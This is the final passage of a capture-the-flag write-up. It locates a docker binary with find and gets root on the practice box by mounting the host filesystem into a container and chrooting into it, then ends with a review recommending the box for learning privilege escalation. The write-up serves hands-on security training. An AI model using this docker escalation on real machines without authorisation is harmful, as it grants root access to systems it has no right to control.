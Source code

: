 ```
echo $PATH
```

It appears that the path is normal. Unfortunately that means we need to look around a bit more. We can do a search for the binary using find.

Note: Learn the find command, it's really helpful!

```
find / -name docker -type f 2>/dev/null
/tmp/docker
```

Lovely, now we have a binary. The -type f means just look for files so it ignores any folders.

So let's try our docker images again

```
cd /tmp
./docker images
```
Lovely that works!

Now we can get the final escalation

```
./docker run -it -v /:/host/ mangoman chroot /host/ bash
cd /root
cat root.txt
```

# Conclusion

There we have it! We have completed the box. It is a really long box but a really fun one. I think this would be a great teaching box from the bottom all the way to intermediate to advanced. It forces research and allows people to learn about all sorts of different privesc vectors including sudo abuse, SUID binaries, vulnerable versions, misconfiguration, and others! Overall I would highly recommend the box to people of all skill levels, the earlier levels are good for beginners and the final privesc tasks are good for intermediate or advanced users.